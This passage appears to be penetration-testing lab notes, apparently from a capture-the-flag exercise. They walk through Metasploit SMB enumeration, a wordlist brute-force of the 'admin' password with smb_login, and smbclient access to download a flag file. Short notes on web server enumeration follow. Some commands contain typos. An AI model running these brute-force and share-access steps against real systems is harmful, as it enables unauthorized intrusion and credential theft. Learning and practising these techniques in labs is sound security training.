 msf6:`use auxiliary/scanner/smb/smb_version`

msf6:`run`

Now we could use the Samba version to get a exploit for the target. But instead we're going to look for usernames instead:

msf6:`search type:auxiliary name:smb`

msf6:`use auxiliary/scanner/smb/smb_enumusers`

msf6`run`

We got the usernames. Now we look for shares:

msf6:`search type:auxiliary name:smb`

msf6:`use auxiliary/scanner/smb/smb_enumshares`

msf6:`show options`

msf6:`set ShowFiles true`

msf6:`run`

We try to access the shares through enumerating the password for the user "admin".

msf6:`search smb_login`

msf6:`use 1`

msf6:`show options`

msf6:`set smbuser admin`

msf6:`set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

msf6:`run`

We obtained the admin credentials.

msf6:`exit`

`smbcliient -L \\\\[targetIP]\\ -U admin`

`smbcliient \\\\[targetIP]\\public -U admin`

smb:`ls`

smb:`cd secret`

smb:`get flag.txt`

smb:`exit`

smb:`cat flag.txt`

## Web Server Enumeration

- Web servers utilize HTTP to facilitate the communication between clients and the web server.
- HTTP in an application layer protocol that utilizes TCP port 80 for communication.
- When a webserver uses a SSL certificate, its HTTPS (port 443)
- We can utilize auxiliary modules to enumerate the web server version, HTTP headers, brute-force directories and more.
- Examples of popular web servers are: Apache, NGINX and MS IIS
